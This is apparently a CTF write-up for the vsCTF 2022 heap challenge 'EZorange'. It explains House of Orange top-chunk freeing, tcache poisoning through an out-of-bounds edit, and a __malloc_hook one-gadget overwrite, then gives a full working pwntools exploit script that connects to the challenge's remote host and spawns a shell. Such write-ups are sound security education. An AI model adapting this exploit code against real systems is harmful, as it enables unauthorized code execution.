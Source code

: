 ### EZorange

was a heap pwn challenge from vsCTF 2022

This challenge was very similar from a challenge from MOCSCTF 2022 – full of orange

which was itself very similar from a challenge from SECCON Beginners: Freeless

you can check by yourself:

https://sekai.team/blog/mocsctf-2022/full-of-orange/

https://github.com/nhtri2003gmail/writeup-mocsctf2022.mocsctf.com-orange

https://dystopia.sg/seccon-beginners-2021-freeless/

 

it starts as house of Orange (as the name hints)

the challenge has no possibility to free a chunk, we can only allocate a chunk of up to 0x1000 bytes, and edit it. 

The edit function is an oob read/write, we can use it to write or leak a byte at any offset from the beginning of the chunk.

As with the house of orange, we will reduce top_chunk, then allocate a 0x1000 chunk, that will free the top_chunk remaining chunk.

With that trick we can free two chunks that will go in the tcache.

Then we do a classic tcache poisonning with the oob r/w edit function,

and we overwrite __malloc_hook with a one gadget to get a shell.

The challenge is based on libc 2.32,  but the safe linking does not change anything, as we can leak the heap address with the oob r/w.



Here is the exploit commented.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./ezorange_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.32.so")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]
onegadgets = one_gadget(libc.path, libc.address)

rop = ROP(exe)

host, port = "104.197.118.147", "10160"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

def buy(idx,size):
  p.sendlineafter('> ', '1')
  p.sendlineafter(': ', str(idx))
  p.sendlineafter(': ', str(size))

def modify(idx, cell, val=0):
  p.sendlineafter('> ', '2')
  p.sendlineafter(': ', str(idx)) 
  p.sendlineafter(': ', str(cell))
  p.recvuntil('Current value: ',drop=True)
  retval = int(p.recvuntil('\n',drop=True),10)
  if (val<256):
    p.sendlineafter('New value: ', str(val))
  else:
    p.sendlineafter('New value: ', '+')
  return retval

buy(0, 0x18)
modify(0, 26, 0)
buy(1, 0x1000)

leak = 0
for i in range(6):
  leak += modify(0, 32+i, 256)<<(i<<3)

print('libc leak = '+hex(leak))
libc.address = leak - 0x1c5c00
print('libc base = '+hex(libc.address))

buy(0, 0x100)

buy(1,0xce0)
# modify top_chunk size to 0x301
modify(1, 0xce8, 1)
modify(1, 0xce9, 3)
modify(1, 0xcea, 0)
# free 1st 0x2e0 chunk
buy(1,0x1000)

buy(0, 0x100)

buy(1,0xce0)
# modify top_chunk size to 0x301
modify(1, 0xce8, 1)
modify(1, 0xce9, 3)
modify(1, 0xcea, 0)
# free second 0x2e0 chunk
buy(1,0x1000)

def obfuscate(p, adr):
    return p^(adr>>12)

# leak heap fd pointer
leak2 = 0
for i in range(6):
  leak2 += modify(0, 0x44948+i, 256)<<(i<<3)

print('heap leak = '+hex(leak2))

# target to get allocation to (malloc_hook)
target= obfuscate(libc.sym['__malloc_hook'], (leak2+0x44d00))
# do tcache poisonning on second chunk
for i in range(6):
  modify(0, 0x44940+i, (target>>(i<<3))&0xff)

buy(1,0x2d0)
# second allocation will be on our target
buy(0,0x2d0)

onegadgets = one_gadget(libc.path, libc.address)
target = onegadgets[1]

# write onegadget to our target
for i in range(6):
  modify(0, i, (target>>(i<<3))&0xff)

# launch onegadget & got shell
buy(0,1)

p.interactive()
```

